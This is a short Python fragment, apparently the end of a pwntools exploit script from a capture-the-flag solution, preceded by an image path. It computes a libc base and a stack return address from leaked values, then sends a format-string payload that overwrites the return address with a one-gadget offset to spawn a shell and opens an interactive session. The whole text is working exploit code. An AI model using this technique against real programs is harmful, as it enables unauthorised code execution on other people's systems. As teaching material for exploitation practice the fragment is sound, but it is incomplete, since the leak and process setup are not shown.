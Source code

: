 ```py
print(leak)
print(stack_leak)

libc.address = int(leak, 16) - 0x3c6780
ret_addr = int(stack_leak, 16) + 0x8
shell = libc.address + 0x45226

p.sendline(fmtstr_payload(6, {ret_addr: shell}))
p.sendline(b'4')

p.interactive()
```
